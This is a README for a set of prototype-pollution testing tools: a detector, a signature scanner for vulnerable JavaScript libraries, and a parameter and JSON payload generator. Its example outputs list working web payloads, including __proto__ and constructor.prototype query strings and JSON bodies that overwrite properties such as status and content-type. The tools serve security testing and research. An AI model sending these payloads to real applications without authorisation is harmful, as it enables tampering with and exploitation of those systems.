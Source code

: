 # PrototypR

Prototype Pollution Detector Tool

- This tool is use the following research: [s1r1us PP Research](https://blog.s1r1us.ninja/research/PP)
- The prototype_checker.js file was copied from: [cspp-tools](https://github.com/BlackFan/cspp-tools/blob/main/prototype_checker/prototype_checker.js)




## Example Usage

Implement an example vulnerable fragment of code [Link](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/pp/jquery-parseparam.md)

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/jquery.min.js"></script>
<script src="https://gist.githack.com/jhjguxin/10971155/raw/f5a8625d868cca305387252dd3293864868d455d/jquery.parseparams.js"></script>
<script>
  $.parseParams(location.href);
</script>
```

Then execute the tool which found Prototype pollution:


```bash
python3 prototyper.py -u "http://127.0.0.1:9001/parseparam.html?foo=bar"                                                          
[+] Prototype Pollution found on URL: http://127.0.0.1:9001/parseparam.html?foo=bar&x.__proto__.edcbcab=edcbcab
[+] Prototype Pollution found on URL: http://127.0.0.1:9001/parseparam.html?foo=bar&__proto__.baaebfc=baaebfc
[+] Prototype Pollution found on URL: http://127.0.0.1:9001/parseparam.html?foo=bar&constructor.prototype.cfbacfd=cfbacfd

```

Check The result:

- Open a new browser tab
- Navigate to the affected url copied from the tool result
- Open Browser Console [`F12`]
- Execute: `Object.prototype`


![image](https://github.com/user-attachments/assets/b220220a-a3df-4d97-9bb3-cb0cc65646bc)

-----

# PPSignature

Signature based detection

**Check Single URL**

```bash
python3 ppsignature.py -u "https://raw.githack.com/cowboy/jquery-bbq/8e0064ba68a34bcd805e15499cb45de3f4cc398d/jquery.ba-bbq.js"
[*] Potentially Vulnerable JS found! (jQuery BBQ (deparam) Prototype Pollution)
[*] Potentially Vulnerable JS found! (deparam Prototype Pollution)
```

**Check URL List**

```bash
python3 ppsignature.py -ul /tmp/urls                                                                                                               
[*] Potentially Vulnerable JS found! (davis.js Prototype Pollution)
[*] Potentially Vulnerable JS found! (jQuery Sparkle Prototype Pollution)
[*] Potentially Vulnerable JS found! (jQuery BBQ (deparam) Prototype Pollution)
[*] Potentially Vulnerable JS found! (deparam Prototype Pollution)
```


# Parameter Polluter

**Help**

```bash
usage: Parameter Pollution Payload Generator [-h] [-p] [-j] [-pp]

options:
  -h, --help            show this help message and exit
  -p , --parameters     Parameters for poisoning
  -j , --json           Specify JSON dictionary to poison
  -pp, --prototype-pollution
                        Generate Prototype pollution payloads
```

Generate polluter parameters from `foo=bar&bar=baz` and append prototype pollution payloads too

```bash
python3 parammer.py -p 'foo=bar&bar=baz' -pp
foo=bar&foo=IrZFbp3EhFwgVEJY&bar=baz
foo=bar&bar=baz&bar=s5PFsDRw8DwUdAWd
foo[]=bar&foo[]=8qbNQZXidrBJz0zR&bar=baz
foo=bar&bar[]=baz&bar[]=GPiO0PuJ4ZDnyzCW
foo=bar&%66oo=fO21ApidTDgNlAfz&bar=baz
foo=bar&bar=baz&%62ar=sRoKlO5vfz94ijqP
foo=bar,E8XKDQHua4BhFGp2&bar=baz
foo=bar&bar=baz,STBhY6AgcxBYAFx4
bar=baz&foo=bar&constructor[prototype][polluted]=Z74dgWmQeVeJJ4aK
bar=baz&foo=bar&constructor.prototype.polluted=Z74dgWmQeVeJJ4aK
bar=baz&foo=bar&__proto__[polluted]={"json":"Z74dgWmQeVeJJ4aK"}
bar=baz&foo=bar&__proto__[polluted]=Z74dgWmQeVeJJ4aK
bar=baz&foo=bar&__proto__.polluted=Z74dgWmQeVeJJ4aK
```
The same generation but in this case the input and the output structure is a JSON data structure

```js
python3 parammer.py -j '{"username":"patrick","role":"user"}' -pp
{"username": ["patrick", "Of4PXVStDWmBjVwt"], "role": "user"}
{"username": "patrick", "role": ["user", "aColnFU3lZaDiDyV"]}
{"username": {"username": "patrick", "unecpected": "VAZyqFSRQxItUmSO"}, "role": "user"}
{"username": "patrick", "role": {"role": "user", "unecpected": "3KqzUabD2a98zUEF"}}
{"username": "patrick", "role": "user", "__proto__": {"polluted": "DIYJe7sJXo2QGJRG"}}
{"username": "patrick", "role": "user", "__proto__": {"polluted": {"json": "DIYJe7sJXo2QGJRG"}}}
{"username": "patrick", "role": "user", "__proto__": {"status": 555}}
{"username": "patrick", "role": "user", "__proto__": {"json spaces": 500}}
{"username": "patrick", "role": "user", "__proto__": {"content-type": "application/json; charset=utf-7", "+AGYAbwBv-": "foo"}}
{"username": "patrick", "role": "user", "constructor": {"prototype": {"polluted": "DIYJe7sJXo2QGJRG"}}}
```

